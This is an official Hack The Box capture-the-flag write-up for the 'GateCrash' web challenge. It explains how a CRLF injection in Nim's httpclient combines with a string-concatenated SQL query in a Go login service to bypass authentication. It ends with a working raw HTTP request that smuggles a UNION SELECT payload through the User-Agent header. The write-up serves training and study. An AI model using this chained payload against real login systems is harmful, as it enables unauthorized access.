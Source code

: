 ![img](https://github.com/hackthebox/writeup-templates/raw/master/challenge/assets/images/banner.png)

<img src="https://github.com/hackthebox/writeup-templates/raw/master/challenge/assets/images/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />        <font size="10">GateCrash</font>

16<sup>th</sup> November 2023 / D23.xx.xx

​Prepared By: Lean

​Challenge Author(s): Lean

​Difficulty: <font color=green>Easy</font>

​Classification: Official

# [Synopsis](#synopsis)

- The challenge involves a user login web application written in Golang and Nim.

## Description

* An administrative portal for the campus parking area has been identified, bypassing it's authentication and gaining access to the gate control would allow us to unlock it and use staff vehicles for securing the campus premises way faster. 

## Skills Required

- Basic understanding of Golang
- Basic understanding of Nim
- Basic understanding of the HTTP protocol
- Basic understanding of SQL
- Experience in searching for known vulnurabilities

## Skills Learned

- CRLF injection
- SQL injection login bypass

## Application Overview

![img](./assets/overview.png)

### Nim's httpclient CRLF Injection Vulnerability

The `main.nim` file contains a piece of code in the `routes` section that checks for SQL injection:

```nim
proc containsSqlInjection(input: string): bool =
  for c in input:
    let ordC = ord(c)
    if not ((ordC >= ord('a') and ordC <= ord('z')) or
            (ordC >= ord('A') and ordC <= ord('Z')) or
            (ordC >= ord('0') and ordC <= ord('9'))):
      return true
  return false
```

The `containsSqlInjection` procedure checks for suspicious characters that could indicate an SQL injection attack. However, it can be bypassed.

The vulnerability lies in the fact that the code uses `decodeUrl` to decode the user agent header, but it does not properly validate or sanitize the decoded value. This allows an attacker to inject CRLF (Carriage Return Line Feed) characters into the user agent header and bypass the SQL injection check.

```nim

routes:
  post "/user":
    let username = @"username"
    let password = @"password"

    if containsSqlInjection(username) or containsSqlInjection(password):
      resp msgjson("Malicious input detected")

    let userAgent = decodeUrl(request.headers["user-agent"])

    let jsonData = %*{
      "username": username,
      "password": password
    }

    let jsonStr = $jsonData

    let client = newHttpClient(userAgent)
    client.headers = newHttpHeaders({"Content-Type": "application/json"})

    let response = client.request(userApi & "/login", httpMethod = HttpPost, body = jsonStr)

    if response.code != Http200:
      resp msgjson(response.body.strip())
       
    resp msgjson(readFile("/flag.txt"))
```

Nims standard http library suffers from CRLF injection as of version <=1.2.6 [https://consensys.io/diligence/vulnerabilities/nim-httpclient-header-crlf-injection/](https://consensys.io/diligence/vulnerabilities/nim-httpclient-header-crlf-injection/)

We can verify that the challenge is vulnerable by looking at the `Dockerfile`, at line 22 `nim 1.2.4` is installed.

```
RUN choosenim update 1.2.4
```

To exploit this vulnerability, we can modify the user agent header in the HTTP POST request to include a CRLF sequence followed by a payload that will bypass the SQL injection check.

### SQL Injection

The `main.go` file implements a Golang server that handles the `/login` route. It also checks the user agent to ensure it matches one of the allowed user agents.

However, there is a vulnerability in the way the SQL query is constructed. The code concatenates the user input directly into the SQL query string, which allows an attacker to perform an SQL injection attack. This vulnerability can be found in the following lines of code:

```go
row := db.QueryRow("SELECT * FROM users WHERE username='" + user.Username + "';")
```

To exploit this vulnerability, we can use the Nim CRLF injection vulnerability to bypass the user agent check and inject a payload that contains an SQL injection attack.

By performing these two steps, we can exploit the vulnerabilities in both Nim and Golang to retrieve the flag.

```nim
let payload = """{"username":"' UNION SELECT 1, 'test', '$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq","password":"test"}"""
```

By injecting this payload into the user agent header, the SQL injection check will be bypassed and the code will execute the following query:

```sql
SELECT * FROM users WHERE username='' UNION SELECT 1, 'test', '$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq' AND password='test';
```

This query will return a fake user with arbitraty an password hash that matches the one we provide in the request.

Also a dummy username and password are added with the exact character length of the CRLF payload in order to exactly match the Content-Length of the request thus overwriting the original one with the injected content.

```
POST http://127.0.0.1:1337/user
User-Agent: ChromeBot/9.5%0D%0A%0D%0A{"username":"' UNION SELECT 1, 'test', '$2a$10$iN4TZptSPm634thWzJmklOEarWGSu6JbWTfNbWntYMqgoRsMsjLjq","password":"test"}
Accept-Encoding: gzip, deflate, br, zstd
Accept: */*
Connection: keep-alive
Content-Length: 110
Content-Type: application/x-www-form-urlencoded

username=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&password=aaaa
```